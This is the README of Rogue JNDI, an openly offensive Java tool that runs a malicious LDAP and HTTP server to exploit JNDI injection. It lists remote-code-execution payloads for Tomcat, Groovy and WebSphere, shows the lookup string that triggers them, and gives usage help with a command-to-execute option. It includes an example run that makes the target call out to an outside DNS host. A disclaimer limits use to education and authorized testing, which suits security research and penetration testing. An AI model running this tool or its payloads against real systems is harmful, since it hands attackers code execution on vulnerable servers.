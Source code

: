 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command     Command to execute on the target server (default: touch 
                      /usr/local/tomcat/temp/pwn.txt) 
    -n, --hostname    Local HTTP server hostname (required for remote 
                      classloading and websphere payloads) (default: 
                      192.168.0.166) 
    -l, --ldapPort    Ldap bind port (default: 1389)
    -p, --httpPort    Http bind port (default: 8000)
    --wsdl            [websphere1 payload option] WSDL file with XXE payload 
                      (default: /list.wsdl)
    --localjar        [websphere2 payload option] Local jar file to load (this 
                      file should be located on the remote server) (default: 
                      ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2              [H2 database init script file (default: /h2)
    --js-payload-path     [Tomcat Nashorn payload option] Path to a .js file 
                          containing the payload served by the Tomcat 
                          controllers; overwrites the -c option (default: 
                          <empty string>)
    --groovy-payload-path [Groovy payload option] Path to a .groovy file 
                          containing the payload served by the Groovy 
                          controller, overwrites the -c option (default: 
                          <empty string>)
    -h, --help            Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.0.166:1389/o=h2 to artsploit.controllers.H2
Mapping ldap://192.168.0.166:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.0.166:1389/o=tomcat10 to artsploit.controllers.Tomcat10
Mapping ldap://192.168.0.166:1389/o=hsqldb to artsploit.controllers.HSQLDB
Mapping ldap://192.168.0.166:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=tomcat10-jshell to artsploit.controllers.Tomcat10JShell
Mapping ldap://192.168.0.166:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.0.166:1389/o=tomcat-jshell to artsploit.controllers.TomcatJShell
Mapping ldap://192.168.0.166:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=generic to artsploit.controllers.Generic
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)